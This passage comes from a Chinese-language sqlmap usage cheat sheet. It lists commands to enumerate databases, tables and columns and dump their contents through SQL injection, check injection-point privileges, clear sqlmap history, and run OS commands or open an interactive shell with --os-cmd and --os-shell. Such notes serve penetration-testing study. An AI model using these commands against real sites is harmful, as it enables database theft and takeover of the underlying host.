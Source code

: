 ```
* sqlmap -u "带参数网址" --dbs

###### ③查看当前数据库

* sqlmap -u "带参数网址" --current-db

###### ④查看表名

* sqlmap -u "带参数网址" -D [数据库名] --tables

###### ⑤列出所有字段名

* sqlmap -u "带参数网址" -D [数据库名] -T [表名] --columns

###### ⑥列出字段内容

* sqlmap -u "带参数网址" -D [数据库名] -T [表名] -C [列名...] --dump

##### b. 历史记录

###### ①Windows

* C:\Users\26254\AppData\Local\sqlmap

###### ②Linux

* /home/test/.sqlmap
* /root/.sqlmap

###### ③清除

1. python sqlmap.py --purge
2. 删除sqlmap的output文件夹
3. python sqlmap.py --flush-session

#### (3). 常用参数

##### a. --privileges

* 测试注入点权限

###### ①用法

```
sqlmap -u [URL] --privileges  //测试所有用户的权限
sqlmap -u [URL] --privileges -U [用户名] //测试指定用户权限
```

###### ②注意

1. 若目标是MSSql数据库，只会列出用户是否是管理员
2. 通过用户权限可以判断出**管理员用户**

##### b. -os-cmd/-os-shell

* 执行shell命令

###### ①用法

```
sqlmap -u [URL] --os-cmd="net user"	//执行net user命令
sqlmap -u [URL] --os-shell		//系统交互式的shell
```

```